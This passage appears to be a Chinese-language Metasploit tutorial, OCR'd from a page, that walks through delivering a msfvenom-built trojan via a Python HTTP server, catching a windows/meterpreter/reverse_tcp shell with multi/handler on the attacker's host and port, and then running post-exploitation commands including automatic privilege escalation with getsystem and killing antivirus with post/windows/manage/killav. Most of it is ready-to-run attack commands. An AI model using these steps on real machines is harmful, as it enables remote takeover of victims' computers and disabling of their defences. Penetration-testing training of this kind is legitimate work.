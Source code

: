 漏洞生成后  通过启动一个py服务将木马上传到目标机器
```
python -m SimpleHTTPServer 80
```

配置监控程序我们使用了
```
use exploit/multi/handler
```

3 输入 options进入配置

```
# 输入
options

# 然后我们配置了  lhost （lhost指的是  监控主机或攻击机 ip）

set lhost 攻击机的ip

# 然后我们配置了 lport  （指的是监控的端口 ）

set lport 攻击机的端口
```

**注意: 端口必须和msfvenom 生成的木马端口一样才行**

配置攻击载荷 payload

```
set payload windows/meterpreter/reverse_tcp
```
> 这里的payload , 就是生成木马的时候 -p 对应的东西.


执行利用等待目标机器执行木马

目标机器执行了木马

利用成功并获得meterpreter

---

# 后渗透利用
```markdown
# 查看进程
ps

# 查看当前进程号
getpid

# 查看系统信息
sysinfo

# 查看目标机是否为虚拟机
run post/windows/gather/checkvm

# 查看完整网络设置
route

# 查看当前权限
getuid

# 自动提权：
getsystem

# 关闭杀毒软件
run post/windows/manage/killav

```